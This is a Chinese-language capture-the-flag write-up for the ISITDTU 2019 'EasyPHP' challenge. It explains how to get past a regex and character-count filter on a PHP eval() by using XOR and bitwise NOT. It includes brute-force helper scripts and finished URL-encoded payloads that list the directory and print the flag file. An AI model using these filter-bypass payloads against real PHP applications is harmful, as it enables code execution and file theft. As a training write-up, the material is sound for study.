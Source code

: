 ```yaml
---
title: '[ISITDTU 2019]EasyPHP'
date: 2024-07-25 19:01:11
tags: 
      - 题解
      - rce
categories: 刷题笔记
---
```


## [ISITDTU 2019]EasyPHP(无字母字符rce进阶)

我们进行代码审计

```
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>

```

第一个if的正则匹配我们可以放到https://regex101.com/这个网站去分析

具体来说就是

<!--more-->

```
\x00- 0-9                       匹配\x00到空格(\x20)，0-9的数字
'"`$&.,|[{_defgops              匹配这些字符
\x7F                            匹配DEL(\x7F)字符
```

排除后我们能使用的字符为

```
!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~
```

第二个if限制了提交字符的种类

count_char(),当mode=3: 会返回包含所有用过的不同字符的字符串

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/221ef6c280b9d6f9197addbdc33d0115.png)

所以字符串的字符种类不能超过13种

通过大佬博客上的脚本，我们来看那些函数可以被使用

```
$array=get_defined_functions();//返回所有内置定义函数
foreach($array['internal'] as $arr){
    if ( preg_match('/[\x00- 0-9\'"\`$&.,|[{_defgops\x7F]+/i', $arr) ) continue;
    if ( strlen(count_chars(strtolower($arr), 0x3)) > 0xd ) continue;
    print($arr.'<br/>');
}

//运行结果
bcmul
rtrim
trim
ltrim
chr
link
unlink
tan
atan
atanh
tanh
intval
mail
min
max
virtual

```

并没有发现我们需要的函数，由于没有过滤~和^，我们考虑使用取反绕过

我们先异或phpinfo()尝试

其实~P=0x8f^0xFF

```
<?php
$a="phpinfo";
echo urlencode(~$a);

//%8F%97%8F%96%91%99%90
```

![image-20240804213355256](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042134424.png)

成功绕过

我们查看disable_functions，发现所有的命令执行的函数都被禁了。我们需要找到flag文件，我们可以使用scandir()或者glob()列目录，但它返回一个数组，我们还需要一个print_r或var_dump

```
print_r(scandir('.'));
```

我们进行暴力异或

```
final_string="print_r(scandir('.'));"
allowed="!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~"
for a in final_string:    
    for i in allowed:
        for p in allowed:
            if ord(i)^ord(p)==ord(a):
                print("i=%s p=%s a=%s"%(hex(ord(i)),hex( ord(p)),hex(ord(a)))))

```

整理一下就变成了

```
print_r(scandir('.'));==((%8f%8d%96%91%8b%a0%8d)^(%ff%ff%ff%ff%ff%ff%ff))(((%8c%9c%9e%91%9b%96%8d)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff));

```

但当我们运行时，第二个if语句报错了，原因是我们一共用了16个不同字符，下一步是缩减字符数

```
result2 = [0x8b, 0x9b, 0xa0, 0x9c, 0x8f, 0x91, 0x9e, 0xd1, 0x96, 0x8d, 0x8c]  # Original chars,11 total
result = [0x9b, 0xa0, 0x9c, 0x8f, 0x9e, 0xd1, 0x96, 0x8c]  # to be deleted
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if a == b == c == d:
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)

```

除了必要的()^;以外，我们最多剩余9个字符的空间，逐步删除result里的值，当结果仍能保持11个，就意味着我们可以继续删除了

```
print_r(scandir(.));=((%9b%9c%9b%9b%9b%9b%9c)^(%9b%8f%9b%9c%9c%9b%8f)^(%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff))(((%9b%9b%9b%9b%9b%9b%9c)^(%9b%9b%9b%9c%a0%9b%8f)^(%8c%9c%9e%96%a0%96%9e)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff));

```

![image-20240804220158064](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042201143.png)

发现flag所在目录

我们需要进行读取，我们使用show_source或者readfile,flag文件在数组的最后面，我们使用end()获取文件名

```
show_source(end(scandir(.)));
```

```
result2 = [160, 136, 138, 140, 141, 144, 145, 209, 150, 151, 154, 155, 156, 158]  # Original chars,14 total
result = [160, 136, 141, 209, 151, 154, 155, 156]
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if (a == b == c == d) or (a==b) or (b==c) or (c==d) or(a==c):
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)

```

```
show_source(end(scandir(.)));=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));

```

获得flag

![image-20240804220429051](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042204204.png)
